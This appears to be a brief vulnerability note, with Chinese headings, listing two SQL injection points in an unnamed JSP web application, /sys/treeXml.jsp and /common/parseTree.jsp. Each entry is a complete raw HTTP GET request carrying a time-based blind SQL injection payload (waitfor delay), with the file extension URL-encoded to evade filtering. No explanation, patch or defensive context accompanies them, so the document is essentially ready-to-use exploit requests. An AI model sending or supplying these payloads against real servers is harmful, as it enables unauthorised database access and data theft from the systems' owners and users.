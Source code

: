 

### /sys/treeXml.jsp SQL注入漏洞

```
GET /sys/treeXml.js%70?menuName=1';waitfor+delay+'0:0:3'--&type=function HTTP/1.1
Host: ip
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,imag e/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 0


```



### /parseTree.jsp SQL注入漏洞

```
GET /common/parseTree.js%70?code=1';waitfor+delay+'0:0:5'-- HTTP/1.1
Host: ip
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,imag e/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 0


```

